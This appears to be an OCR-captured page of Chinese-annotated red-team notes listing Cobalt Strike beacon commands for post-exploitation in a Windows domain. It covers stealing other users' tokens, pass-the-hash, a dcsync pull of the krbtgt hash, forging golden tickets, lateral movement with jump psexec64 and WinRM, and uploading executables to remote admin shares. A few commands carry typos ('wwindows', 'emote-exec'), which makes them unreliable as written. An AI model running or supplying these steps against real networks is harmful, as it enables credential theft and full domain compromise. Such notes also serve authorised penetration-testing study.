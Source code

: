 ```sh
Process List: 按User排序，偷一个其他用户 点击其他用户进程, 点击: Steal Token
# 或者 beacon > steal_token 8068
beacon > ls \\FILESERVER\C$
beacon > rev2self # revert token
```

**Pass-the-Hash**

```sh
beacon > spawnto x64 c:\windows\system32\dllhost.exe
# Pth 攻击
# 右击 Beacon 窗口 : Access - Make Token
## 从DC中提取密码哈希, hashdump好像也行
beacon > dcsync CORP.ACME.COM CORP\krbtgt
```

**Kerberos Tickets**

```sh
beacon > whoami /user # sid
beacon > net domain # corp.acme.com
# 右击 Beacon 窗口 : Access - Golden Ticket
beacon > run klist
beacon > run c:\wwindows\sysnative\klist
beacon > ls \\DC.CORP.ACME.COM\C$\
```

```sh
beacon > jump
beacon > jump psexec64 DC local - smb
# jump - winrm64
```

upload file

```sh
cd \\host\C$\windows\temp
upload /path/to/file.exe
```

**Run an Artifact**

- List remote execute methods:
  - `remote-exec`
- Run a command on remote target
  - `emote-exec [method][target][command]`

| Module | Description                                      |
| ------ | ------------------------------------------------ |
| psexec | Run command via a new service                    |
| winrm  | Run PowerShell expression via WinRM (PowerShell) |
| wir    | Run command via WinRM (PowerShell)               |

beacon >
